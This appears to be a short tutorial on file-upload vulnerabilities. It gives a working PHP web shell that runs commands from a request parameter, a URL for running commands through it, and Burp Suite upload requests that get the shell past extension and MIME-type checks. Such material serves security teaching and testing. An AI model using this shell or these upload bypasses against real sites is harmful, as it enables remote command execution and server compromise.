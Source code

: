 Upload a malicious PHP file:

```
<?php
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Then access it through the browser and execute a command:

```
http://vulnerable-site.com/uploads/shell.php?cmd=whoami
```

### File extension bypass

Bypass happens when the filter only checks the extension. Rename or trick the filename in the request.

**Burp Suite interception example:**

```
POST /upload HTTP/1.1
Host: vulnerable-site.com
Content-Length: 215
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: image/jpeg
<?php system($_GET['cmd']); ?>

------WebKitFormBoundary--

```

> 🚨 **IMPORTANT**: Simply renaming the file may bypass weak extension checks, but most servers also validate the file content or block execution, so additional tricks like double extensions or Content-Type spoofing are often needed.


### Content-type spoofing

Occurs when the server checks only the MIME type header but not the real file content.
This allows an attacker to hide malicious files by sending an allowed MIME type (For example `image/jpeg`) while the file actually contains executable code.

**Burp Suite interception example:**

```
POST /upload HTTP/1.1
Host: vulnerable-site.com
Content-Length: 215
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg      <-- Fake MIME
<?php system($_GET['cmd']); ?>      <-- Malicious PHP

------WebKitFormBoundary--
```
